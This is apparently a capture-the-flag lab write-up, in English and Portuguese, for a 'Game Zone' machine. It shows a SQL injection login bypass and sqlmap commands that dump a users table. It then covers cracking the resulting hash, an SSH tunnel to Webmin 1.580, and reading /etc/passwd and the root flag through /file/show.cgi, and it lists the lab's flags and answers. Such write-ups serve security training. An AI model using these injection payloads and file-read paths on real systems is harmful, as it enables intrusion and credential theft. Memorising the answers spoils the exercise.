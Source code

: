 # gamezone

# TASK 1 - Deploy the vulnerable machine

What is the name of the large cartoon avatar holding a sniper on the forum?
R: Agent 47

nmap -sC -sV 10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/ff14a15b-5083-4c7b-8477-422c389aa6c0)

# TASK 2 -  Obtain access via SQLi

Log in: ' or 1=1 -- -
Password:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/9b1ab06e-9f2f-4498-b9aa-2e0fca682d61)

When you've logged in, what page do you get redirected to?
R: portal.php

# TASK 3 - Using SQLMap

Salvar o código fonte que aparece no BURP SUITE da página logo após inserir alguma informação no input em um arquivo txt, vamos usar isso logo em seguida.

sqlmap -r request.txt --current-db

![image](https://github.com/yanfernandess/gamezone/assets/100174458/86b0560e-c2a6-4d29-b7dc-dd067d5c1232)

Descobrimos que temos um banco de dados chamado 'db'

![image](https://github.com/yanfernandess/gamezone/assets/100174458/e0590bd6-1677-4274-a095-f79b125ed9f7)

sqlmap -r request.txt -D db --tables

![image](https://github.com/yanfernandess/gamezone/assets/100174458/10fe000e-346e-499d-96f2-3b2ab7c228ec)

Temos duas tabelas dentro do banco de dados, vamos explorar elas.

sqlmap -r request.txt -D db users --dump

In the users table, what is the hashed password?
R: ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

What was the username associated with the hashed password?
R: agent47

What was the other table name?
R: post

# TASK 4 - Cracking a password with JohnTheRipper

Ele esta pedindo para descriptografar com o JohnTheRipper mas utilizei uma ferramenta online para fazer isso, segue o link abaixo:

https://www.dcode.fr/

![image](https://github.com/yanfernandess/gamezone/assets/100174458/27c46287-82b9-4cde-96aa-4c7ec7ee35f5)

Conseguimos acesso SSH com o login e a senha que acabamos de descriptografar.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/09cf8537-da10-4d64-9c79-20b52316b187)

E conseguimos a primeira flag.

What is the de-hashed password?
R: videogamer124


Now you have a password and username. Try SSH'ing onto the machine.

What is the user flag?
R: 649ac17b1480ac13ef1e4fa579dac95c

# TASK 5 - Exposing services with reverse SSH tunnels

ssh -L 10000:localhost:10000 agent47@10.10.138.171

![image](https://github.com/yanfernandess/gamezone/assets/100174458/338a6a7d-f737-4dfe-8f56-bcf1331c7e52)

Fiz o Login com a credencial descoberta e descobri que se trata de um webmin da versão 1.580.

![image](https://github.com/yanfernandess/gamezone/assets/100174458/45a7648c-0ecd-4bcb-bdf3-6277cf8ea382)

How many TCP sockets are running?
R: 5

What is the name of the exposed CMS?
R: Webmin

What is the CMS version?
R: 1.580

# TASK 6 - Privilege Escalation with Metasploit

Se você estiver seguindo o guia da sala, neste ponto você poderá iniciar o Meterpreter e usar um módulo dentro da estrutura para obter um shell root. No entanto, se você ler como o exploit funciona, é muito simples apenas ler os arquivos no console do webmin. Para testar isso, vamos dar uma olhada no arquivo passwd:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/91e33563-b26c-474a-a2d9-da1811989c49)

Como você pode ver, tudo o que precisei fazer foi adicionar /file/show.cgi e, em seguida, o caminho e o nome do arquivo que desejo ver.

Usando esta técnica simples, podemos pegar o sinalizador root:

![image](https://github.com/yanfernandess/gamezone/assets/100174458/2af2fb5d-4620-476c-b2f7-84233d9ea3ea)

What is the root flag?
R: a4b945830144bdd71908d12d902adeee
